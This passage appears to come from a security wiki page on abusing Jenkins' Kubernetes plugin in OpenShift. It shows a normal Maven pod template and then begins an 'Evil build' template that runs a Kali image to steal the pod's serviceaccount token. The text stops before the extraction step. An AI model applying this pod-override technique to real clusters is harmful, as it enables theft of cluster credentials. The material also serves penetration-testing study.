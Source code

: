 # Jenkins in Openshift - build pod overrides

**The original author of this page is** [**Fares**](https://www.linkedin.com/in/fares-siala/)

## Kubernetes plugin for Jenkins
This plugin is mostly responsible of Jenkins core functions inside an openshift/kubernetes cluster. Official documentation [here](https://plugins.jenkins.io/kubernetes/)
It offers a few functionnalities such as the ability for developers to override some default configurations of a jenkins build pod.

## Core functionnality

This plugin allows flexibility to developers when building their code in adequate environment.

```groovy
podTemplate(yaml: '''
    apiVersion: v1
    kind: Pod
    spec:
      containers:
      - name: maven
        image: maven:3.8.1-jdk-8
        command:
        - sleep
        args:
        - 99d
''') {
  node(POD_LABEL) {
    stage('Get a Maven project') {
      git 'https://github.com/jenkinsci/kubernetes-plugin.git'
      container('maven') {
        stage('Build a Maven project') {
          sh 'mvn -B -ntp clean install'
        }
      }
    }
  }
}
```

## Some abuses leveraging pod yaml override

It can however be abused to use any accessible image such as Kali Linux and execute arbritrary commands using preinstalled tools from that image.
In the example below we can exfiltrate the serviceaccount token of the running pod.

```groovy
podTemplate(yaml: '''
    apiVersion: v1
    kind: Pod
    spec:
      containers:
      - name: kali
        image: myregistry/mykali_image:1.0
        command:
        - sleep
        args:
        - 1d
''') {
  node(POD_LABEL) {
    stage('Evil build') {
      container('kali') {
        stage('Extract openshift token') {
```